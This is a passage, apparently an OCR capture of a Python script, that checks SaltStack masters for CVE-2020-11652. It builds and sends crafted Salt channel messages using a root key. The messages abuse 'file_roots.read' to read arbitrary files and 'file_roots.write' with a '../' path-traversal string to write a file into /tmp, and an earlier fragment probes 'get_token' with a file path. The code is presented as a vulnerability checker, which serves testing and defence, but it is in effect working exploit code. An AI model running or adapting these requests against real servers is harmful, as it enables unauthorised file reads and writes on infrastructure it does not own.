 ```python
    'cmd': 'get_token',
    'arg': [],
    'token': top_secret_file_path,
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("YES")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    print("NO")
  
def check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (read)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'file_roots.read',
    'path': top_secret_file_path,
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    if rets['data']['return']:
      print("YES")
    else:
      print("NO")

def check_CVE_2020_11652_write1(debug, channel, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (write1)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'file_roots.write',
    'path': '../../../../../../../../tmp/salt_CVE_2020_11652',
    'data': 'evil',
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
```